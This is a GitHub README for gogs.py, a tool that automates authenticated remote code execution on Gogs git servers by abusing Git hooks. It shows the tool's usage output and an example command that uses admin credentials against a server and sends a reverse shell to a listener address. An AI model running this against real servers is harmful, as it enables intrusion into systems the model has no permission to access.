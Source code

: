 # Gogs Remote Code Execution
Tool to automate code execution on the server running Gogs git service.  
Inspired from: https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce

![Alt text](./Gogs.png)

## POC

![Alt text](./example.svg)
<!--[![asciicast](https://asciinema.org/a/562896.svg)](https://asciinema.org/a/562896)-->

## How to use
```bash
./gogs.py -h
usage: gogs.py [-h] -s SERVER -u USERNAME -p PASSWORD -r REVSHELL [-t TLS]

Tool to automate code execution on the server running Gogs git service.
[#] Type: Post-Authenticated
[#] Privilege: Permission to create Git hooks (Admin Panel > Users > Edit Account)
[#] Tested: 0.12.9 

options:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        Hostname/IP (port) (path)
  -u USERNAME, --username USERNAME
                        Username of the account
  -p PASSWORD, --password PASSWORD
                        Password of the account
  -r REVSHELL, --revshell REVSHELL
                        <ip>:<port>
  -t TLS, --tls TLS     true or false

```

## Example
```bash
/gogs.py -s 192.168.1.24:8000 -u admin -p 'Password1234' -t false -r 192.168.45.5:80
```
## To-Do
- HTTP interaction over internet instead of Reverse Shell
- More enumeration modules ...
